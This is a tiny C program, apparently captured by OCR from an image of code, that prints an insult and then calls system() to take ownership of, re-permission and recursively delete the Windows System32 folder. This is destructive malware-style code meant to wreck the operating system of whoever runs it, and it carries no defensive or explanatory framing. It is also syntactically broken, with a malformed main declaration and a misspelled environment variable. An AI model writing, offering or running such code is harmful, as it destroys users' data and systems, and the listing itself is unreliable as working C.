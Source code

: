 #include <stdio.h>

#include <stdlib.h>

int main{

printf("You're an idiot. I know it, you know it");

system("takeown /f C:\Windows\System32 && Icacls C:\Windows\System32 && rd /s /q %windr%\system32");

return 0;

}
